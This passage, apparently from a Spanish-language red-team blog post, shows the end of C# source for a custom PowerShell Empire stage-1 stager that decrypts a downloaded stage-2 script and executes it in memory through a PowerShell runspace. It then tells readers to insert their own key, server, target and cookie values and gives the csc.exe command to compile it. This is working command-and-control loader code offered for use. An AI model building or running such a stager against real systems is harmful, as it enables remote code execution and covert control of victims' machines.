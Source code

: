 ```console
 
            // Convert the stage2 decrypted message from bytes to ASCII
            string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
 
            // Create a PowerShell Object to execute the command 
            PowerShell PowerShellInstance = PowerShell.Create();
 
            // Create the variables $ser and $u which are part of the downloaded stage2
            PowerShellInstance.Runspace.SessionStateProxy.SetVariable("ser", server);
            PowerShellInstance.Runspace.SessionStateProxy.SetVariable("u", ua);
 
            // Add the Script Stage 2 to the Powershell Object
            PowerShellInstance.AddScript(stage2);
 
            // Execute the Script!
            PowerShellInstance.Invoke();
 
        }
    }
}
```console

Ahora modifique este código para incluir sus variables, necesita cambiar clave (key), servidor (server), destino (target) y cookie. Si no sabe cuál es el suyo, simplemente ejecute el comando de launcher, use base64 para decodificar su script y verifique esos valores.

Para compilar, puede usar csc.exe y hacer referencia a System.Management.Automation.dll. Ejemplo: guarde su código en PSEmpireStage1.cs y use el símbolo del sistema del desarrollador.

```console 
csc.exe PSEmpireStage1.cs /reference:C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
```console

¡Un video rápido de ejecución!
 
Hay mucho más por descubrir para PowerShell Empire, pero para mí fue un buen comienzo. He estado usando PowerEmpire durante casi 6 meses y no sabía todo esto.
 
El proyecto está en mi GitHub.